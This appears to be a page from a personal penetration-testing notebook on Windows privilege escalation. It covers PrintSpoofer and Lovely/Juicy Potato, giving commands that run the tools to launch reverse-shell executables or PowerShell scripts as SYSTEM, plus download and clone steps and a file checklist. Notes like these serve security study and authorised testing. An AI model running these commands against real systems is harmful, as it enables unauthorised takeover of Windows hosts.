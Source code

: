 #### PrintSpoofer
**If Windows server, try PrintSpoofer!**

```command prompt - target
systeminfo | findstr /B /C:"OS Name" /C:"OS Version" /C:"System Type"
```

```
https://github.com/itm4n/PrintSpoofer/releases
```

Transfer to target.

[[4._File Transfers]]

[[rlwrap]]

Use either exe or ps1 for reverse shell:

[[1._Reverse Shells (WIN)#Stageless Payloads]]
```command prompt - target
PrintSpoofer64.exe -c "cmd /c powershell -c C:\Windows\Temp\Tools\reverse64.exe"
```

OR

[[1._Reverse Shells (WIN)#Powershell reverse TCP]]

OR

[[1._Reverse Shells (WIN)#PowerShell 1 liner]]

```command prompt - windows
PrintSpoofer64.exe -c "cmd /c powershell -c C:\Users\thecybergeek\AppData\Local\Temp\Shelly.ps1"
```

Start another listener on Kali.

[[rlwrap]]

5. Now run the PrintSpoofer exploit to trigger a reverse shell running with SYSTEM privileges:

```command prompt - windows
C:\PrivEsc\PrintSpoofer.exe –i -c "C:\PrivEsc\reverse.exe"
```

#### Juicy Potato-Lovely
```bash - kali
git clone https://github.com/TsukiCTF/Lovely-Potato && cd Lovely-Potato
```

[[TechLexicon/Penetration Testing/Reference/7._Tools/Python#Server]]

[[1._Reverse Shells (WIN)#MSFVenom]]

MAKE SURE YOU HAVE ALL THESE FILES IN LOVELY-POTATO FOLDER:
- [ ] Invoke-LovelyPotato.ps1
- [ ] JuicyPotato-Static.exe
- [ ] test_clsid.bat
- [ ] reverse.exe

[[rlwrap]]

